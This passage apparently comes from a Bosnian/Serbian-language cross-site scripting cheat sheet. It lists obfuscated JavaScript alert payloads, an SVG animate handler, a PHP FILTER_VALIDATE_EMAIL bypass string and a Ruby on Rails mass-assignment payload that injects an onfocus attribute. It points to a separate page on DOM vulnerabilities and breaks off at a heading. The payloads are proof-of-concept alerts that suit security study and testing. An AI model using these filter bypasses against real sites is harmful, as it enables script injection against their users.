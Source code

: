 ````javascript
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````

## **DOM ranjivosti**

Postoji **JS kod** koji koristi **nesigurne podatke kontrolisane od strane napadača** poput `location.href`. Napadač bi mogao iskoristiti ovo da izvrši proizvoljan JS kod.\
**Zbog proširenja objašnjenja o** [**DOM ranjivostima, premješteno je na ovu stranicu**](dom-xss.md)**:**

{% content-ref url="dom-xss.md" %}
[dom-xss.md](dom-xss.md)
{% endcontent-ref %}

Tamo ćete pronaći detaljno **objašnjenje šta su DOM ranjivosti, kako se izazivaju i kako ih iskoristiti**.\
Takođe, ne zaboravite da **na kraju pomenutog posta** možete pronaći objašnjenje o [**DOM Clobbering napadima**](dom-xss.md#dom-clobbering).

## Ostali Bypass-ovi

### Normalizovani Unicode

Možete provjeriti da li su **reflektovane vrijednosti** **normalizovane u Unicode-u** na serveru (ili na strani klijenta) i iskoristiti ovu funkcionalnost da zaobiđete zaštitu. [**Pronađite primjer ovdje**](../unicode-injection/#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL flag Bypass

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass za Ruby-On-Rails

Zbog **RoR masovnog dodeljivanja** navodnici se ubacuju u HTML, a zatim se zaobilazi ograničenje navodnika i mogu se dodati dodatna polja (onfocus) unutar taga.\
Primer obrasca ([iz ovog izveštaja](https://hackerone.com/reports/709336)), ako pošaljete payload:

```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```

Par "Ključ","Vrednost" će biti vraćeno kao što je prikazano:

```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```

Zatim će biti umetnut atribut onfocus i doći će do XSS napada.

### Posebne kombinacije
